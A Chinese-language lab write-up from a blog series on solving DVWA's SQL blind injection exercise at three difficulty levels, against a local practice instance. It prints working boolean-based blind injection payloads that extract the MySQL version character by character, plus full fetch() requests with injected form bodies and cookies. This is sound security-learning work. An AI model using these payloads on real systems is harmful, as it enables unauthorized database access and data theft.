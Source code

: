```yaml
---
title: DVWA上手记录-SQL盲注
slug: get-start-dvwa-07
date: 2022-04-28 11:30:00
categories:
- security
tags:
- security
- dvwa
- sqli
---
```


## 前言

SQL盲注会比一般的注入难度高很多，特别是经验不足的时候可以尝试的 payload 有限，就算有注入点也很难靠手里积累的那点 payload 测出来。一般这种时候用工具会好得多。

## 原理

SQL盲注指的是存在SQL注入，但SQL错误不回显。这种情况下报错攻击无效而且构造有效的 payload 会比较困难。但还是可以通过几个方面确定执行结果：

1. 页面显示内容。比如当SQL错误发生或`WHERE`、`ON`这样的条件子句不满足时和正常执行时网页内容不同。
2. 如果正常执行和错误都返回一样的页面，还可以通过时间来判断SQL是否被执行，比如构造一个执行很慢的 payload 让 SQL 服务器跑，如果返回时间比正常时间久就说明SQL被执行了。
3. 可能还有其他的？

盲注还有个问题就是注入的查询可能不回显到前端，所以直接 `UNION` 一个查询曝出所有的表和列是不太可能的。但如果存在盲注的话至少会有一个比特的观测窗口，所以还是存在一个字符一个字符试过去的办法，比如表名第一个字符是`a`的表是否存在，表名第一个字符是`b`的表是否存在，如此如此。虽然慢而且对一些无法枚举的字段（比如存的是unicode，那总不能遍历整个码表；或者 `int`、`float`这样取值范围太大的类型）没辙。

## 解题

### Low难度：收集信息

![image-20220427165553250](image-20220427165553250.png)

一个普通表单，尝试输入数字。

![image-20220427165613795](image-20220427165613795.png)

逻辑应该是检测这个用户id是否存在于数据库中，随便乱打个数字看看。

![image-20220427165723361](image-20220427165723361.png)

看下目标是什么。

![image-20220427165744902](image-20220427165744902.png)

猜解数据库版本。接着试一试是什么类型的注入，已知这个表单回显是存在/不存在，所以拼一个 `' or 1=1; --` 看看，把条件变成恒真。

![image-20220427165955690](image-20220427165955690.png)

有效。

### Low难度：解题

用 `or` 连接一个子查询，`SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%'); --`。这个查询会判断是MySQL的版本是不是5开头。依次类推很快就能解出MySQL版本号。

```plaintext
' or (SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%')); -- 
```

但是很快发现行不通，因为没有权限访问 `sys` 这个系统库（没有报错，我只能猜是这样）。

想了想再谷歌了一下盲注的payloads之后还行没什么头绪，`union`大概是不行的，因为回显只有exists和missing两种状态，union查出来也看不到。再翻了一下怎么用SQL查询MySQL版本之后发现除了`show variables`和`sys.version`之外，还可以试试`version`函数。用`SELECT SUBSTR(VERSION(),1,1)='5'`，然后逐个位判断（最好是先判断出这个字符串长度，用`length(version())>1`这样的 payload。）

于是做出下面一系列payload（mysql版本号是`x.y.z`格式，肯定不低于5位，直接从5开始判断）。

```plaintext
' or (SELECT LENGTH(VERSION())>5); -- true
' or (SELECT LENGTH(VERSION())>6); -- false
```

只用了两个 payload 就确定了长度是 6。

接着判断第一位是不是5（因为5.x还是最常用的MySQL版本），后面逐位判断。（这里略了尝试的部分）

```plaintext
' or (SELECT SUBSTR(VERSION(),1,1)='5'); -- true
' or (SELECT SUBSTR(VERSION(),2,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),3,1)='7'); -- true
' or (SELECT SUBSTR(VERSION(),4,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),5,1)='3'); -- true
' or (SELECT SUBSTR(VERSION(),6,1)='7'); -- true
```

所以数据库版本号是 `5.7.37`。

这种无聊的爆破工作显然是应该交给脚本的。之后研究sqlmap的时候会再回头看看怎么用sqlmap盲注这里。

### Medium难度：收集信息

![image-20220428092639212](image-20220428092639212.png)

和SQL注入题的medium难度一模一样。

### Medium难度：解题

还是老样子，复制出请求，尝试提交个数字型注入。

```js
await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://localhost:8080/vulnerabilities/sqli_blind/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "id=999+or+1%3D1;+--+&Submit=Submit",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

![image-20220428092945875](image-20220428092945875.png)

在`id=999 or 1=1; --`这个payload下返回了 `exists`，剩下的就是和 Low 难度差不多的方式爆破出版本号，就不复述了。

### High难度：收集信息

![image-20220428093304965](image-20220428093304965.png)

和SQL注入题的High难度差不多，但注意到题中提示变成了 `Cookie ID set!`，于是看一眼 Cookie。

![image-20220428093423840](image-20220428093423840.png)

id直接保存在cookies里，这就简单多了。

### High难度：解题

复制出请求（注意复制出 NodeJS fetch，复制浏览器 fetch 不会复制出cookie），把cookie里的id改成`0 or 1=1 --`，URL编码。

```js
let resp = await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "upgrade-insecure-requests": "1",
    "cookie": "id=0 or 1=1 -- ; PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=high",
    "Referer": "http://localhost:8080/vulnerabilities/sqli_blind/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": null,
  "method": "GET"
});
```

初始化一个node包（`package.json`把`type`设置成`module`），安装`node-fetch`，补个 `import fetch from "node-fetch";` 然后调试上面的脚本，发现提示 MISSING。

![image-20220428095318913](image-20220428095318913.png)

难道是字符型注入？改成`' or 1=1 --`再试一次。

![image-20220428095720005](image-20220428095720005.png)

这次提示变成了exists，所以是字符型注入。接下来就是用 Low 难度的 Payload 一个一个试过去，爆破出版本号。

## 总结

说说我打完盲注的想法。其实最大的问题是没信心，不知道到底什么结果，没有任何错误提示。有源码的情况下白盒还比较容易构造 payload，黑盒的情况下盲注构造payload倒是很考验心态，因为总是不成功没反应打击很大，会怀疑是不是自己判断错了。

而且很费时间。

想确认是否有注入点感觉最好的办法还是先拿工具脚本试水。不过有防火墙的情况下可能又有问题=。=像是`or 1=1`这种payload很可能被杀。工具没辙的时候还得看人有没有新点子，但这又是大佬的领域了...

嗯，我也想做大佬啊。

